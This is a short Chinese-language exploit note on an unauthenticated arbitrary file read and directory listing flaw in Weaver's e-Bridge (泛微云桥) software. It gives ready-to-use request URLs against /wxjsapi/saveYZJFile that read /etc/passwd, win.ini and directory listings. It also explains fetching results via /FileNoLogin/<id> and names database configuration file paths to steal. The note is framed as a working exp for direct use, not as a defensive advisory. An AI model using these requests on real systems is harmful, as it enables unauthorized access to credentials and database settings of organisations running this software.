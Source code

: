 # 泛微云桥任意文件读取

1.未授权读取。直接调用exp就OK 

```
http://www.xxx.com/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///etc/passwd&fileExt=txt 

http://www.xxx.com/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///c://windows/win.ini&fileExt=txt 
```

2.任意读取linux的passwd值

可在响应包中JSON中包含ID的32位值

 再次请求可获得/etc/passwd值

```
 http://www.xxx.com/FileNoLogin/32位MD5值 
```



```
http://www.xxx.com/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///etc/passwd&fileExt=txt
```

![image-20201020131557916](resource/%E6%B3%9B%E5%BE%AE%E4%BA%91%E6%A1%A5%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96/media/image-20201020131557916.png)

![image-20201020131608856](resource/%E6%B3%9B%E5%BE%AE%E4%BA%91%E6%A1%A5%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96/media/image-20201020131608856.png)

![image-20201020131618615](resource/%E6%B3%9B%E5%BE%AE%E4%BA%91%E6%A1%A5%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96/media/image-20201020131618615.png)

3.任意读取winodws下的win.ini值 未授权任意文件读取,/wxjsapi/saveYZJFile接口获取filepath,返回数据包内出现了程序的绝对路径,攻击者可以通过返回内容识别程序运行路

径从而下载数据库配置文件危害可见。
 1.downloadUrl参数修改成需要获取文件的绝对路径,记录返回包中的id值。 

```
http://www.xxx.com/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///c://windows/win.ini&fileExt=txt
```

![image-20201020131651995](resource/%E6%B3%9B%E5%BE%AE%E4%BA%91%E6%A1%A5%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96/media/image-20201020131651995.png)

2.通过查看文件接口访问 /file/fileNoLogin/id

![image-20201020131709565](resource/%E6%B3%9B%E5%BE%AE%E4%BA%91%E6%A1%A5%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96/media/image-20201020131709565.png)

3.其他利用技巧(读取任意目录文件) 简单说说昨天泛微云桥的报告,输入文件路径->读取文件内容,我们读了一下代码后发现这还能读取文件目录。 参数不填写绝对路径写进文本内容就是当前的目录,产生了一个新的漏洞 “目录遍历” 

```
/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///D:/&fileExt=txt
```

![image-20201020131743737](resource/%E6%B3%9B%E5%BE%AE%E4%BA%91%E6%A1%A5%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96/media/image-20201020131743737.png)

目录遍历+文件读取,我们能做的事情就很多了,比如读取管理员在桌面留下的密码文件、数据库配置文件、nginx代理配置、访问日志、D盘 迅雷下载:

d://ebridge//tomcat//webapps//ROOT//WEB-INF//classes//init.properties d:/OA/tomcat8/webapps/OAMS/WEB-INF/classes/dbconfig.properties 泛微OA数据库



![image-20201020131806330](resource/%E6%B3%9B%E5%BE%AE%E4%BA%91%E6%A1%A5%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96/media/image-20201020131806330.png)